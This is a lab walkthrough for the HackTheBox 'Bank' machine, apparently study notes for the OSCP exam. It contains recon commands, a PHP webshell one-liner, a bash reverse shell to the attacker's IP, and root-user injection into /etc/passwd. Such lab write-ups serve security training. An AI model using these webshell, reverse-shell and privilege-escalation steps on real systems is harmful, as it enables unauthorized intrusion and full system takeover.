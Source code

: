 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.29
```

### 🔍 Targeted Script & Version Scan
```bash
nmap -p 22,53,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.29
```

### 🔍 UDP Scan (DNS)
```bash
nmap -p- -sU --min-rate 10000 -oA scans/nmap-alludp 10.10.10.29
```

---

## 🌐 DNS & VHost Enumeration

### 🔎 Zone Transfer to Discover Subdomains
```bash
dig axfr bank.htb @10.10.10.29
```

### 📝 Add to /etc/hosts
```
10.10.10.29 bank.htb chris.bank.htb ns.bank.htb www.bank.htb
```

### 🌐 Virtual Host Brute-Force
```bash
wfuzz -u http://10.10.10.29/ -H "Host: FUZZ.bank.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hh 11510
```

---

## 🧪 Web Enumeration [HTTP](HTTP.md)

### 🧱 Gobuster (PHP Extensions)
```bash
gobuster dir -u http://bank.htb \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php -t 50 -o scans/gobuster-bank.htb-root-medium-php
```

### 📂 Interesting Results
- `/balance-transfer/` → holds `.acc` files
- `/uploads/` → 403 Forbidden
- `/inc/` → contains internal PHP includes
- `/support.php` → file upload

---

## 🔓 Shell as `www-data`

### 📁 Analyze Balance-Transfer Files
```bash
curl -s http://bank.htb/balance-transfer/ | grep -F '.acc' | wc -l
curl http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc
```
> Found one broken file with **plaintext creds**:  
> **Email**: chris@bank.htb  
> **Password**: `!##HTBB4nkP4ssw0rd!##`

### 🔐 Login via Web
> Log in to the portal using `chris / !##HTBB4nkP4ssw0rd!##`

---

## 🛠 Webshell Upload & Execution

### 🛡️ Filter Bypass – Debug Hint Reveals `.htb` Executable Extension

**Webshell**: `cmd.htb`
```php
<?php system($_REQUEST["cmd"]); ?>
```

**Execution**:
```bash
curl http://bank.htb/uploads/cmd.htb?cmd=id
```

### 🐚 Reverse Shell
Listener:
```bash
nc -lnvp 443
```

Payload:
```bash
curl http://bank.htb/uploads/cmd.htb \
--data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.41/443 0>&1"'
```

Shell Upgrade:
```bash
python -c 'import pty; pty.spawn("bash")'
# In local terminal:
stty raw -echo; fg
export TERM=screen
```

---

## 🔐 Privilege Escalation

### 🔍 SUID Binary Method #1 (Backdoor)
```bash
find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency  # Custom SUID root binary

/var/htb/bin/emergency
id && cat /root/root.txt
```

### 🔍 `/etc/passwd` Writable Method #2 (Manual Root User Injection)
```bash
# Create root-equivalent user
openssl passwd -1 0xdf
# Result: $1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0

echo 'oxdf:$1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0:0:0:root:/root:/bin/bash' >> /etc/passwd
su - oxdf
```

---

## 🔍 Beyond Root

### 🔁 Improper Redirects
```php
// /inc/header.php
if(empty($_SESSION['username'])){
  header("location: login.php");
  return;  // ❌ Should be 'exit;' instead
}
```

### 🔍 SUID Analysis
```bash
md5sum /var/htb/bin/emergency
md5sum /bin/dash
# Identical → emergency is renamed dash
```